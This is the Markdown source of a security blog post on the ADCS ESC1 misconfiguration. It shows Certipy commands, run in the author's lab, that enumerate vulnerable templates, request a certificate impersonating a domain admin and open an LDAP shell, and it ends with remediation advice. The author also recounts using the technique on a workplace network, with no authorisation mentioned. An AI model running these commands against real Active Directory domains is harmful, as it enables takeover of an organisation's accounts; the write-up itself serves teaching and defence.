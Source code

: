 ```yaml
---
date: 2024-04-13
title: esc1 - a surprisingly easy privilege escalation
type:
- post
- posts
weight: 10
series:
aliases:
- /blog/adcs/
---
```


## what is adcs?

adcs, otherwise known as active directory certificate services is a windows server role that issues and manages PKI certificates that are used in authentication and communication protocols.

these certificates are issued through root and subordinate CA's to various different users, computers and services to maintain certificate validity.

## what is esc1?

esc1 is a specific vulnerability targeting overly permissive active directory certificate templates that are issued by these CA's.

more specifically, if a template allows a standard domain user or domain computer to enroll/request a template, depending on how the template is configured they have the potential to impersonate any user on the domain.

i was pretty surprised how easy this was to replicate, and was also pretty surprised that i hadn't heard of this exploit before.

the first thing i tried after coming across said vulnerability was to replicate the privilege escalation under my workplace's environment. after approximately an hour using only a standard domain user account, i had successfully manage to impersonate the head of the SOC team to create a new domain user account and add it to the domain admins group using LDAP queries.


## what makes a template vulnerable?

there are a few things that we are looking for when exploiting ESC1, however the most damning are enrolment rights being granted to low privileged users and requesters being able to specify a subjectAltName in the CSR.

**example 1:**

![subjectAltName](/sanRequest.png)

in the above image the ability to include a subjectAltName in the CSR to that specific template is allowed.

active directory will prioritise the SAN name in a certificate for identity if the field is present. this means that by specifying a specific username in the SAN a .pfx can be requested to impersonate any user (e.g domain administrators)

when creating a new template it does give a warning mentioning the risks upon allowing anybody to request a SAN, however if cloning an existing template with it enabled it does not grant a warning.

![Prevent](/prevent.png)

ฅ^•ﻌ•^ฅ

### proof of concept

the tool that i used for absolutely everything was certipy which can be downloaded from the below link:

https://github.com/ly4k/Certipy

credit to ly4k for maintaining such a fantastic tool.

for the purpose of this blog i have spun up a VM which mimics an AD & CA server (CXLABS-DC-01)

i created a template under the name of VulnTemplate which allows the requestee to specify the SAN and also allows normal domain users to enroll into this template.

 > python3 entry.py find -u "joshua@CXLABS.LOCAL" -p "REDACTED" -dc-ip "192.168.197.129" -stdout -scheme ldap

 this uses the find module of certipy to enumerate all ADCS templates, where -u and -p are the credentials for the domain account and the DC-IP is the CA.

 it's important to note that certipy uses LDAPS by default, in my messy DC deployment i have not issued any certs for LDAPS authentication, so i've opted to use plain old ldap.

 output from command:

 ![VulnTemplate](/VulnTemplate.png)

 straight away you can see we've found a template vulnerable to ESC1, next we can leverage this and request a certificate with the SAN being "domain_admin" (a domain admin user i setup) with the payload looking a little something like this:

 > python3 entry.py req -u joshua@cxlabs.local -p REDACTED -target 192.168.197.129 -template VulnTemplate -ca "CXLABS-CXLABS-DC-01-CA" -upn "domain_admin@cxlabs.local"

![poc](/poc.png)

as you can see we have successfully managed to receive a .PFX certificate that allows us to impersonate a domain admin.

we can now use this to open up an administrative LDAP certipy shell using the below payload:

> python3 auth -pfx domain_admin.pfx -dc-ip 192.168.197.129 -ldap-shell -debug

![pwnd](/pwnd.png)

and just like that we have obtained domain admin.

## finishing notes

long story short when configuring ADCS templates always ensure that the SAN cannot be supplied in the request and should always be taken from AD values.

👽
